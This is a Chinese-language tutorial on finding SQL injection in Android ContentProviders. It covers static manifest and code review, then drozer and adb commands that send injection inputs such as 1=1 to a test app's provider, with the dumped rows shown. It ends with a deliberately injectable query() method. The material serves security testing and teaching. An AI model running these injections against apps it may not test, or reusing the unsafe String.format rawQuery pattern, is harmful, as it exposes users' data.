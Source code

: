 # ContentProvider_SQLInject(一)
我们已经探究过 SQL 本地注入的问题，结论是可行(使用不当的时候风险存在)。

接下来我们从不同的测试角度来完成这个风险的认定。

## 一、完全静态代码检测
1. 查看 AndroidManifest.xml 文件中的所有 `<provider>` 节点。
2. 如果该节点 `android:enabled="true"` 检查 `<application>` 的 `android:enabled="true"`
    - 以下说法适用于上述两个节点
    - `android:enabled="true"`意味着 本组件可以被 Android 系统实例化，从而被三方应用调用。
    - 此属性默认值为 `android:enabled="true"` —— 即：对应节点如果没有设置改属性那么意味着 `android:enabled="true"`
3. 在 enable = true 的前提下查看权限属性    
    ```xml
    android:permission="string"         //无该属性即为不需要权限
    android:writePermission="string"    //无该属性即为不需要权限
    android:readPermission="string"     //无该属性即为不需要权限
    ```
    - 值的注意的是 ` readPermission 和 writePermission ` 属性比 `permission` 具有更高的优先级。如果 readPermission 也同时设置了，那么 readPermission 将控制 provider 的读取。如果 writePermission 也同时设置了，那么 writePermission 将控制 provider 的写入。  
    - 如果上述权限均设置均为null(“”)
        - 如果用声明了 `<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />` 节点那么造成任意文件读取风险(在4 5 均造成风险的前提下)。
        - 如果声明了 `<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />` 节点那么造成任意文件写入风险(在4 5 均造成风险的前提下)。
4. 根据 `<provider>` 节点的属性 `android:name` 所指定的路径找到 ContentProvider。
5. 锁定到 query() 方法。
    - 数据处理过程中使用了下述方法即为风险：
        1. 只使用下述方法基本可以确定风险存在了。
            - rawQuery(String sql, String[] selectionArgs)
            - rawQuery(String sql, String[] selectionArgs, CancellationSignal cancellationSignal)
            - rawQueryWithFactory(CursorFactory cursorFactory, String sql, String[] selectionArgs,String editTable)
            - rawQueryWithFactory(CursorFactory cursorFactory, String sql, String[] selectionArgs,String editTable, CancellationSignal cancellationSignal)            
        2. 在使用下述方法的情况下`selectionArgs`参数如果置空存在风险。
            - query(boolean distinct, String table, String[] columns, String selection, String[] selectionArgs, String groupBy, String having, String orderBy, String limit, CancellationSignal cancellationSignal)
            - query(boolean distinct, String table, String[] columns, String selection, String[] selectionArgs, String groupBy, String having, String orderBy, String limit)             
            - query(String table, String[] columns, String selection, String[] selectionArgs, String groupBy, String having, String orderBy, String limit)
            - query(String table, String[] columns, String selection, String[] selectionArgs, String groupBy, String having, String orderBy)

## 二、drozer 动态检测
run scanner.provider.injection -a packageName   
- 验证应用脆弱性
    ```terminal
    dz> run scanner.provider.injection -a com.example.tom.forbroadcast
    Scanning com.example.tom.forbroadcast...
    Not Vulnerable:
    content://com.example.tom.forbroadcast.com.android.tools.fd.runtime.InstantRunContentProvider
    content://com.example.tom.forbroadcast.com.android.tools.fd.runtime.InstantRunContentProvider/

    Injection in Projection:
    No vulnerabilities found.

    Injection in Selection:
    content://testin.cn/
    content://authorities
    content://testin.cn
    content://authorities/
    ```

Injection in Projection:    
Injection in Selection:     
- 上述两个语句之后如果为 `No vulnerabilities found.` 即无风险，否则有风险。

### 2.1、drozer 完成注入动作
```terminal
dz> run app.provider.query content://testin.cn/ --selection  "'"
unrecognized token: "';" (code 1): , while compiling: SELECT * FROM restaurants WHERE ';

dz> run app.provider.query content://testin.cn/ --selection 1=1
| _id | name | address | type | notes | phone |
| 1   | 1    | 1       | 1    | 1     | 1     |
| 2   | 2    | 2       | 2    | 2     | 2     |
| 3   | 3    | 3       | 3    | 3     | 3     |
| 4   | 4    | 4       | 4    | 4     | 4     |
```

## 三、adb 完成注入动作
```terminal
C:\Users\Tom>adb shell content query --uri content://testin.cn/ --where "'"
/system/bin/sh: no closing quote

C:\Users\Tom>adb shell content query --uri content://testin.cn/ --where "1=1"
Row: 0 _id=1, name=1, address=1, type=1, notes=1, phone=1
Row: 1 _id=2, name=2, address=2, type=2, notes=2, phone=2
Row: 2 _id=3, name=3, address=3, type=3, notes=3, phone=3
Row: 3 _id=4, name=4, address=4, type=4, notes=4, phone=4
```


## 附 上述注入所对应的代码
```java
@Nullable
@Override
public Cursor query(@NonNull Uri uri, @Nullable String[] projection, @Nullable String selection, @Nullable String[] selectionArgs, @Nullable String sortOrder) {
    SQLiteDatabase sqLiteDatabase = this.mySQLiteOpenHelper .getReadableDatabase();
    String sqlSel = String.format("SELECT * FROM %s WHERE %s;", restaurants, selection);
    Log.i("select", sqlSel);
    Cursor cursor = sqLiteDatabase.rawQuery(sqlSel, null);
    return cursor;
}
```
